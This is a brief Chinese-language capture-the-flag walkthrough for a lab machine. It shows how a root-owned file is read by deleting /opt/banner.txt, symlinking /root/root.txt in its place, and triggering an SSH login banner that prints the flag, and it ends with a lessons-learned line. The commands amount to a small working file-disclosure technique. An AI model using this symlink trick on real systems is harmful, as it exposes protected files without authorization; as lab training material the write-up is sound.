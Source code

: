 ## RootFlag

不用提权了，可以直接通过`banner`来读取`root.txt`文件

1. 删除`banner.txt`
    
    ```python
    hero:/opt$ rm banner.txt
    ```
    
2. 通过符号链接把`root.txt`连接到`/opt/banner.txt`
    
    ```python
    hero:/opt$ ln -s /root/root.txt /opt/banner.txt
    ```
    
3. 最后通过`SSH`登录`Root`用户，显示`banner`
    
    ```python
    hero:/opt$ ssh root@172.17.0.1
    The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
    ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '172.17.0.1' (ED25519) to the list of known hosts.
    HMVNOTINPRODLOL
    root@172.17.0.1's password:
    ```
    

## 总结

学习到使用`socat`实现端口转发，以及`SSH banner`